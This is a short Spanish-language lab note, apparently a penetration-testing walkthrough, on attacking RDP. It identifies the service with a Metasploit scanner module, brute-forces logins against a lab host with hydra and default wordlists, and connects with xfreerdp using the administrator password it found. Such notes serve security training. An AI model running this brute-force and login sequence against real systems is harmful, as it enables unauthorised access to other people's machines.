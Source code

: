 Por lo general, el protocolo RDP corre sobre el puerto 3389, pero es posible que corra por otro puerto, por lo que podemos asegurarnos de que un puerto es el RDP con metasploit:
![[Pasted image 20230730164545.png]]
Usaremos el siguiente módulo de metasploit:
```bash
use auxiliary_scanner/rdp/rdp_scanner
```
![[Pasted image 20230730164711.png]]
Y ahora con hydra podemos hacer el ataque de fuerza bruta con estos parámetros:
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.2.28.92 -s 3333
```
Y nos encuentra los siguientes usuarios:
![[Pasted image 20230730165016.png]]
Ahora para conectarnos de forma remota, podemos usar una herramienta llamada xfreerdp:
```bash
xfreerdp /u:administrator /p:qwertyuiop /v:10.2.28.92:3333
```
![[Pasted image 20230730165316.png]]
Y ya habremos entrado:
![[Pasted image 20230730165226.png]]